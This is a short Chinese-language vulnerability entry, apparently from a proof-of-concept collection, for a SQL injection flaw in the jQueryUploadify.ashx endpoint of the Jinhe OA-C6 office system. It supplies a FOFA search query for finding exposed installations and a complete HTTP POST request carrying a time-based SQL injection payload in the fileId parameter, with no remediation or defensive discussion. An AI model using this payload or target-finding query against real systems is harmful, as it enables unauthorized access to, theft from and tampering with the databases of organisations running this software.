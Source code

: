 # 金和OA-C6系统接口jQueryUploadify.ashx存在SQL注入漏洞

金和OA-C6系统接口jQueryUploadify.ashx存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## fofa

```javascript
app="金和网络-金和OA"
```

## poc

```javascript
POST /C6/JQueryUpload/AjaxFile/jQueryUploadify.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.2) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/41.0.887.0 Safari/532.1
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-Type: application/x-www-form-urlencoded
 
type=delete&fileId=-99';WAITFOR+DELAY'0:0:5'--
```